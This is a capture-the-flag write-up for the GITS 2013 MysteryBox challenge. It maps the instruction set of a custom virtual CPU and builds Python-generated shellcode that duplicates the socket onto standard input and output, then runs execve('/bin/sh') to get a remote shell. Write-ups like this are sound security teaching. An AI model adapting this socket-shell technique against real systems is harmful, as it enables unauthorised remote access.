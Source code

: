 ```yaml
---
title: 'GITS 2013 Writeup: MysteryBox (re300)'
date: 2013-02-17T00:00:00+02:00
draft: false
---
```


MysteryBox was a remote server disassembling and running its input data for an
unknown RISC-like CPU. As far as I know the unknown CPU is not a "real" CPU but
a VM made solely for this challenge. Here is an example of how to interact with
the remote MysteryBox service:

{{< highlight shell-session >}}
$ perl -e 'print "\x00\x00\x00\x00"' |
        nc mysterybox.2013.ghostintheshellcode.com 4242
09007800  ldb sp, sp, sp
Caught signal 11.  Program terminated.
 sp=0900bc08  r1=00000000  r2=00000000  r3=00000000  r4=00000000  r5=00000000
 r6=00000000  r7=00000000  r8=00000000  r9=00000000 r10=00000000 r11=00000000
r12=00000000 r13=00000000 r14=00000000 r15=00000000 r16=00000000 r17=00000000
r18=00000000 r19=00000000 r20=00000000 r21=00000000 r22=00000000 r23=00000000
r24=00000000 r25=00000000 r26=00000000 r27=00000000 r28=00000000 r29=00000000
 lr=00000000  ip=09007800  cc=ffff
{{< / highlight >}}

<!--more-->

We can see the remote service disassembled our `00 00 00 00` bytes to `ldb sp,
sp, sp` and crashed while executing it (crash dump `ip` points to our
instruction). After playing a bit with the disassembler, I figured out how
instructions were encoded, and ran a loop to get all the instructions supported
by this CPU:

```
00000000        ldb sp, sp, sp
01000000        stb sp, sp, sp
02000000        ldbu sp, sp, sp
03000000        stbu sp, sp, sp
04000000        ldsxb sp, sp, sp
05000000        ldi sp, 0
06000000        add sp, sp, sp
07000000        mulx sp, sp, sp, sp
08000000        div sp, sp, sp
09000000        and sp, sp, sp
0a000000        shl sp, sp, sp
0b000000        syscall 0  ; SYS_restart_syscall
0c000000        ldfs f0, sp, sp
0d000000        ldfsu f0, sp, sp
0e000000        fadd f0, f0, f0
0f000000        fmod f0, f0, f0
00400000        ldh sp, sp, sp
01400000        sth sp, sp, sp
02400000        ldhu sp, sp, sp
03400000        sthu sp, sp, sp
04400000        ldsxh sp, sp, sp
05400000        ldih sp, 0
06400000        sub sp, sp, sp
07400000        imulx sp, sp, sp, sp
08400000        idiv sp, sp, sp
09400000        or sp, sp, sp
0a400000        shr sp, sp, sp
0b400000        cmplt0 sp, sp
0c400000        ldfd f0, sp, sp
0d400000        ldfdu f0, sp, sp
0e400000        fsub f0, f0, f0
0f400000        fpow f0, f0, f0
00800000        ldw sp, sp, sp
01800000        stw sp, sp, sp
02800000        ldwu sp, sp, sp
03800000        stwu sp, sp, sp
04800000        ldsxbu sp, sp, sp
05800000        jmp 0x08a3b898
06800000        addx sp, sp, sp
07800000        mul sp, sp, sp
08800000        mod sp, sp, sp
09800000        xor sp, sp, sp
0a800000        rol sp, sp, sp
0b800000        icmplt0 sp, sp
0c800000        stfs f0, sp, sp
0d800000        stfsu f0, sp, sp
0e800000        fmul f0, f0, f0
0f800000        flog f0, f0, f0
00c00000        ldmw sp, sp, sp
01c00000        stmw sp, sp, sp
02c00000        ldmwu sp, sp, sp
03c00000        stmwu sp, sp, sp
04c00000        ldsxhu sp, sp, sp
05c00000        call 0x08a3b8d8
06c00000        subx sp, sp, sp
07c00000        mov sp, sp
08c00000        imod sp, sp, sp
09c00000        sar sp, sp, sp
0ac00000        ror sp, sp, sp
0bc00000        fcmplt0 f0, f0
0cc00000        stfd f0, sp, sp
0dc00000        stfdu f0, sp, sp
0ec00000        fdiv f0, f0, f0
0fc00000        ldfi f0, sp
```

More details about this architecture: it is little-endian, each instruction can
be made conditional (like ARM) and the result of an arithmetic operation can be
shifted left by up to 16 bits. While most instructions use 3 registers, some
also use one register and a 16 bit, sign-extended immediate. From there, I
started to experiment a bit and wrote a simple `write(4, "h", 1)` shellcode:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

instrs = gen_string('h')
instrs += [
    0x05020004, # ldi r1, 4
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

This works well, however our goal is to get a shell! For that, we need
to `execve("/bin/sh", { "/bin/sh", NULL }, NULL)`. But this is not
enough: `sh` tries to communicate using standard stdin/out/err FDs (0, 1, 2).
We need to write something to `dup2` our socket over these FDs:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('h')
instrs += [
    0x05020001, # ldi r1, STDOUT_FILENO
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

Our write syscall is now using `STDOUT_FILENO` (aka. 1) and working fine, which
means our `dup2` calls are working. Now we need to `execve` our shell. This
shellcode stores `"/bin/sh"` at address `sp+16`, and stores `argv` (aka. `{
sp+16, 0 }`) at address `sp`. Note that the previous `gen_string` had a bug
because it was using `stbu` (store then update the pointer) instead
of `stb` (simply store).

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | (i + 16)) # ldi r1, [i+16]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x01040020)     # stb r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('/bin/sh\x00')
instrs += [
    0x05020010, # ldi r1, 16
    0x06021000, # add r1, r1, sp
    0x05040004, # ldi r2, 4
    0x06042000, # add r2, r2, sp
    0x01863040, # stw r3, r3, r2
    0x07c40000, # mov r2, sp
    0x01823040, # stw r1, r3, r2
    0x0b00000b, # syscall SYS_execve
]
{{< / highlight >}}

With our shell we can now `cat key` to finally solve this challenge.
